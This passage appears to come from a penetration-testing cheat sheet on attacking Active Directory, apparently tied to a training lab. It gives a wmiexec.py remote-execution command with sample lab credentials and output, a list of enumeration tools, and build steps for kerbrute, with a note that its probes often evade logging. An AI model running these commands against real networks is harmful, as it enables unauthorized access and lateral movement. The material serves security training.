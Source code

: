 ```shell-session
# Connect to a remote machine with a local administrator account
wmiexec.py $domain/$user:$password@$ip 
# Examples:
# impacket-wmiexec inlanefreight.local/wley:'transporter@4'@172.16.5.5 
# wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```


```
# Results
C:>whoami
domain\user22
```


## Attacking AD from Windows

### Enumeration: users, credentials

**Tool for enumeration**: 

- [Enumeration with LDAP queries](389-636-ldap.md)
- [PowerView.ps1 from PowerSploit project (powershell)](powerview.md).
- [The ActiveDirectory PowerShell module (powershell)](activedirectory-powershell-module.md).
- [BloodHound (C# and PowerShell Collectors)](bloodhound.md).
- [SharpView (C#)](sharpview.md).
- [kerbrute](kerbrute.md).
- [Crackmapexec](crackmapexec.md).
- [enum4linux](enum4linux.md).
- net.exe.
- [powershell](powershell.md).
- [ActiveDirectory PowerShell Module](activedirectory-powershell-module.md).


#### Users

##### Kerbrute

[See kerbrute](kerbrute.md).

 It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts.


```
sudo git clone https://github.com/ropnop/kerbrute.git

# Typing make help will show us the compiling options available.
cd kerbrute
make help

# type make all and compile one each for use on Linux, Windows, and Mac systems (an x86 and x64 version for each).
sudo make all

# The newly created dist directory will contain our compiled binaries.
ls -la dist

# Copy the file to the windows pivoting machine
scp kerbrute_windows_amd64.exe username@$ip:~/
```
